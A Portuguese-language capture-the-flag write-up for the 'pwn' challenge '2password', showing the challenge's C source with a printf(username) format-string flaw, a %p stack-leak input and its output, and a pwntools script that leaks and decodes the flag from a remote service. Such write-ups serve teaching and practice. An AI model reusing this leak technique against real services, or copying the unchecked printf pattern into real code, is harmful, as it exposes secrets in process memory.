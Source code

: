 # WriteUp: 2password
## Descrição do Desafio:
**Autor:** kaiphait \
**Categoria:** pwn \
**Descrição:**
> 2Password > 1Password

## Passo a Passo da Solução
### 1. Análise dos arquivos fornecidos
Este desafio fornece tanto o executável como o código-fonte dele. Olhando para o código fonte, notamos que é um código simples, ele apenas pede para inserirmos um usuário, uma senha 1, e por fim uma senha 2, sem nenhuma possibilidade de *overflow*.

Também notamos que a **flag** não é impressa na tela em nenhum momento, porém, há uma verificação entre o conteúdo dela e a senha 2.

{% code title="chall.c" overflow="wrap" numberLines="true" %}

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void readline(char *buf, size_t size, FILE *file) {
  if (!fgets(buf, size, file)) {
    puts("wtf");
    exit(1);
  }
  char *end = strchr(buf, '\n');
  if (end) {
    *end = '\0';
  }
}

int main(void) {
  setbuf(stdout, NULL);
  printf("Enter username: ");
  char username[42];
  readline(username, sizeof username, stdin);
  printf("Enter password1: ");
  char password1[42];
  readline(password1, sizeof password1, stdin);
  printf("Enter password2: ");
  char password2[42];
  readline(password2, sizeof password2, stdin);
  FILE *flag_file = fopen("flag.txt", "r");
  if (!flag_file) {
    puts("can't open flag");
    exit(1);
  }
  char flag[42];
  readline(flag, sizeof flag, flag_file);
  if (strcmp(username, "kaiphait") == 0 &&
      strcmp(password1, "correct horse battery staple") == 0 &&
      strcmp(password2, flag) == 0) {
    puts("Access granted");
  } else {
    printf("Incorrect password for user ");
    printf(username);
    printf("\n");
  }
}
```

{% endcode %}

O interessante desse código, é que no final dele, caso uma das verificações de usuário e senha tenha falhado, é impresso o `username` por meio da função `printf(username)`. E isso é uma vulnerabilidade de *format string*, porque dessa forma nós podemos inserir formatos na variável do usuário que imprimirão o conteúdo da pilha, e como o conteúdo da **flag** é carregado para uma variável local antes da verificação, ela estará na pilha.

### 2. Exploit
A solução é bem simples, devemos encontrar a posição na qual a **flag** começa a aparecer na pilha e com isso vazar seu conteúdo. Executando o código, e digitando vários caracteres de formato, encontramos a **flag** na posição 6 da pilha.

{% hint style="info" %}

**Nota:** No meu caso, o arquivo **flag.txt** contém o valor `ABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBA`, por isso que a saída na pilha é um monte de `0x42` e `0x41`.

{% endhint %}

```bash
Enter username: %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
Enter password1: NADA
Enter password2: NADA
Incorrect password for user 0x7ffc38b83a20-(nil)-(nil)-0x1c-(nil)-0x4242424242424241-0x4242424242424242-0x4242424242424242-0x4242424242424242-0x4242424242424242-0x1800041
```

{% code title="solve.py" overflow="wrap" numberLines="true" %}

```py
from pwn import *

elf = context.binary = ELF("./chall")
p = remote("ip", porta)
#p = process()

# Montando payload, flag começa no 6.
payload = ""
for i in range(6, 9):
    payload += f"%{i}$p-"
payload = payload.encode()

# Enviando payload.
p.sendlineafter(b"username:", payload)
p.sendlineafter(b"password1:", b"CCCCCCCC")
p.sendlineafter(b"password2:", b"CCCCCCCC")

# Montando a flag.
p.recvuntil(b"user")
flag = ""
flag_leak = p.recvline().decode().split("-")[:-1]

flag = b''.join(
    int(x.strip(), 16).to_bytes((len(x.strip()) - 2 + 1) // 2, 'little')
    for x in flag_leak
).decode(errors='ignore')

print(flag)
```

{% endcode %}

{% hint style="info" %}

**Nota:** O valor 9 na instrução `range(6, 9)` foi encontrado depois de vazar a **flag** pela primeira vez, inicialmente o valor era 11, já que no código-fonte a **flag** era carregada para uma *string* de 42 caracteres.

{% endhint %}

### Flag
`lactf{hunter2_cfc0xz68}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)